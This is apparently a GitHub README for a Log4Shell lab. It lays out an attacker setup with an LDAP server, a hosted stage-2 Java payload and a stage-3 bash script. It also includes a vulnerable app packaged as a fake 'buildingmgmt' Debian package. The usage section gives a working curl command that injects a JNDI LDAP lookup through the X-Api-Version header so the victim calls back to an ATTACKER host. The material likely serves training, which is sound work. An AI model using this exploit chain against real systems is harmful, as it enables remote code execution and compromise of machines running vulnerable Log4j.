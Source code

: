 M75-LOG4J-VULNERABILITY
-----------------------

# Overview

![](./images/log4j-explained.webp)

# Project Structure

```
.
├── README.md
├── attacker                        # Attacker related files
│   ├── docker-compose.yml          # used to build and run the payload-generator, ldap server and http server containers
│   ├── http-dir                    # http server hosted directory
│   │   ├── Plugin.class            # Java class hosted by the http server ready for the victim (stage 2 payload)
│   │   └── fRitPo                  # Linux bash script (stage 3 payload)
│   ├── marshalsec                  # attacker ldap server
│   └── payload-generator           # dockerized payload generator (used to update jave source and compile it)
│       ├── Dockerfile              
│       └── Plugin.src.java         # stage 2 payload source code
├── images                          # README media
└── victim                          # Victim related files
    ├── Makefile                    # Helper script to build the debian package
    ├── buildingmgmt.1.0-1          # fake building management server/app source
    ├── buildingmgmt.1.0-1.deb      # distributable debian package ready for install
    └── log4shell-vulnerable-app    # log4j vulnerable app
```

### References
- [log4shell-dockerlab](https://javarepos.com/lib/ChoiSG-log4shell-dockerlab)

# Usage

## Victim

1. Download and install the vulnerable web app.
```bash
wget -O /tmp/buildingmgmt.deb https://github.com/sintax1/M75-log4j-vuln/blob/master/victim/buildingmgmt.1.0-1.deb?raw=true
sudo apt install /tmp/buildingmgmt.deb
```

## Attacker

1. clone the source repo onto the attacker VM.

```
git clone https://github.com/sintax1/M75-log4j-vuln.git
```

2. Build and run the docker containers.

```
cd M75-log4j-vuln/victim
docker-compose up --build
```

3. Launch the exploit.

```
VICTIM=<The victim accessible IP or domain name accessible by the attacker>
VICTIM_VULN_PORT=<The port where the log4j vulnerable web app is running on the victim>
ATTACKER=<The attacker IP or Domain name accessible by the victim, for callbacks>
LDAP_PORT=1389
STAGE2_JAVA_CLASS_NAME=Plugin
curl ${VICTIM}:${VICTIM_VULN_PORT} -H 'X-Api-Version: ${jndi:ldap://${ATTACKER}:${LDAP_PORT}/${STAGE2_JAVA_CLASS_NAME}}'
```

# Development

## Victim

### Build .deb package

```bash
cd victim
make build

-- output --
cd log4shell-vulnerable-app; gradle bootJar --no-daemon
To honour the JVM settings for this build a single-use Daemon process will be forked. See https://docs.gradle.org/7.4.1/userguide/gradle_daemon.html#sec:disabling_the_daemon.
Daemon will be stopped at the end of the build 

BUILD SUCCESSFUL in 4s
4 actionable tasks: 4 up-to-date
cp log4shell-vulnerable-app/build/libs/*.jar buildingmgmt.1.0-1/opt/buildingmgmt/building-management.jar
dpkg-deb --build buildingmgmt.1.0-1
dpkg-deb: building package 'buildingmgmt' in 'buildingmgmt.1.0-1.deb'.
```

### Transfer to the victim and install

```bash
apt install buildingmgmt.*.deb
```